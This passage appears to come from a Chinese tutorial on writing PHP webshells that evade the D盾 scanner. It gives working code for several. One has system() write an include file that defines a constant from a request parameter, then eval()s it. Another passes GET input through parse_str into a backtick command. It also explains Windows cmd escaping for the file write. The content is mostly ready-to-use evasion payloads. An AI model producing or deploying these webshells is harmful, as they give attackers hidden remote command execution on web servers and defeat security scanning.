
**当eval()加一个常量并同时包含一个页面时**
![](img/28.png)
D盾认为，可能是包含了页面中的业务，所以直接把`eval()`PASS掉了。成功绕过。

因为D盾语句不会匹配到`system()`函数中的 cmd 命令，可以先写一个连接语句后包含进来，即可完成连接。
```php
<?php
//pass=shell
system('echo ^<?php define("shell","$_REQUEST[shell]"); ?^>>1.php');
include('1.php');eval(shell);
?>
```




以下默认没有版本限制

**创建文件后包含绕过型**
>使用文件包含尝试绕过检测 只可以在windows环境中使用，Linux会权限不足无法创建文件

```php
<?php
system('echo ^<?php define("shell","$_REQUEST[shell]"); ?^>>1.php');
include('1.php');eval(shell);
?>
```
> Windows cmd  ^ 转义符

`echo "<Hellow>" >1.txt"写成 echo ^<Hello^> > 1.txt`  让`<>`失效。



---

**parse_str 变量**
```php
<?php
$a=1;
$b="a=".@$_GET['a'];
parse_str($b);
print_r(`$a`)
?>
```